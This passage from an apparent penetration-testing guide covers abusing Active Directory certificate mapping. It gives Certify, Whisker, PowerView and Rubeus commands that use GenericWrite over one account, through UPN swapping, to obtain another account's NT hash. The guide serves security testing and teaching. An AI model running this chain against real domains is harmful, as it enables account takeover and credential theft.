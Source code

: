 {% tab title="Windows" %}
From Windows systems, the [Certify](https://github.com/GhostPack/Certify) (C#) tool can be used.

```batch
# Find vulnerable/abusable certificate templates using default low-privileged group
Certify.exe find

# Find vulnerable/abusable certificate templates using all groups the current user context is a part of:
Certify.exe find /currentuser
```

Here, **user1** has `GenericWrite` against **user2** and want to compromise **user3**.

First, the **user2**'s credentials are needed. It can be retrieved via a [Shadow Credentials](../kerberos/shadow-credentials.md) attack, for example. Here just the `msDs-KeyCredentialLink` modification part with [Whisker](https://github.com/eladshamir/Whisker):

```batch
Whisker.exe add /target:"user2" /domain:"domain.local" /dc:"DOMAIN_CONTROLLER" /path:"cert.pfx" /password:"pfx-password"
```

Then, the `userPrincipalName` of **user2** is changed to **user3** with [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)**.**

```batch
Set-DomainObject user2 -Set @{'userPrincipalName'='user3'} -Verbose
```

A certificate permitting client authentication can be requested in a **user2** session.

```batch
Certify.exe request /ca:'domain\ca' /template:"User"
```

The **user2**'s UPN is changed back to something else.

```batch
Set-DomainObject user2 -Set @{'userPrincipalName'='user2@dmain.local'} -Verbose
```

Now, authenticating with the obtained certificate will provide the **user3**'s NT hash during [UnPac the hash](../kerberos/unpac-the-hash.md). This action can be realised with [Rubeus](https://github.com/GhostPack/Rubeus). The domain must be specified since it is not present in the certificate.

```batch
Rubeus.exe asktgt /getcredentials /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"domain.local" /dc:"DOMAIN_CONTROLLER" /show
```
{% endtab %}
{% endtabs %}

* Case 2 :
  * `CertificateMappingMethods` is set to `0x4`, meaning no strong mapping is performed and only the UPN will be checked
  * A template that specifiy client authentication is enabled (any template, like the built-in `User` template)
  * `GenericWrite` right against any account A to compromise any account B without a UPN already set (machine accounts or buit-in Administrator account for example)
